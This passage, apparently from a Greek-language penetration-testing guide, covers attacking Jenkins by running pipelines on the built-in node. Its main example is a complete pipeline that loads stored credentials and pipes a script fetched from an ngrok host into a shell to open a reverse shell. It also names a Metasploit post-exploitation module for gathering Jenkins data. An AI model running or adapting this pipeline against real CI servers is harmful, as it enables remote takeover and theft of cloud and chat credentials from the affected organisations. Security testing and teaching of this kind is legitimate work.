 Είναι **ιδιαίτερα ενδιαφέρον να παραβιάσετε τον ενσωματωμένο κόμβο** επειδή περιέχει ευαίσθητες πληροφορίες του Jenkins.

Για να υποδείξετε ότι θέλετε να **εκτελέσετε** τη **διαδικασία** στον **ενσωματωμένο κόμβο του Jenkins**, μπορείτε να καθορίσετε μέσα στη διαδικασία την ακόλουθη διαμόρφωση:
```bash
pipeline {
agent {label 'built-in'}
```
### Πλήρης παράδειγμα

Αγωγή σε ένα συγκεκριμένο πράκτορα, με έναν προγραμματισμένο χρονοδιακόπτη, με μεταβλητές περιβάλλοντος αγωγής και σταδίου, φόρτωση 2 μεταβλητών σε ένα βήμα και αποστολή αντίστροφου κελύφους:
```bash
pipeline {
agent {label 'built-in'}
triggers { cron('H */4 * * 1-5') }
environment {
GENERIC_ENV_VAR = "Test pipeline ENV variables."
}

stages {
stage("Build") {
environment {
STAGE_ENV_VAR = "Test stage ENV variables."
}
steps {
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
'''
}
}
}

post {
always {
cleanWs()
}
}
}
```
Ο Metasploit είναι ένα εργαλείο ανοικτού κώδικα που χρησιμοποιείται για εκμετάλλευση ευπαθειών σε συστήματα υπολογιστών. Μπορεί να χρησιμοποιηθεί για να εκτελέσει επιθέσεις μετά την εκμετάλλευση, όπως η λήψη ελέγχου του συστήματος, η προσθήκη χρηστών, η κατάκτηση προνομίων και η συλλογή πληροφοριών από τον στόχο. Ο Metasploit παρέχει ένα ευέλικτο περιβάλλον για την εκτέλεση επιθέσεων και την ανάπτυξη εξατομικευμένων επιθέσεων. Μπορεί να χρησιμοποιηθεί είτε από τη γραμμή εντολών είτε μέσω του γραφικού περιβάλλοντος Armitage.
```
msf> post/multi/gather/jenkins_gather
```
### Μυστικά του Jenkins
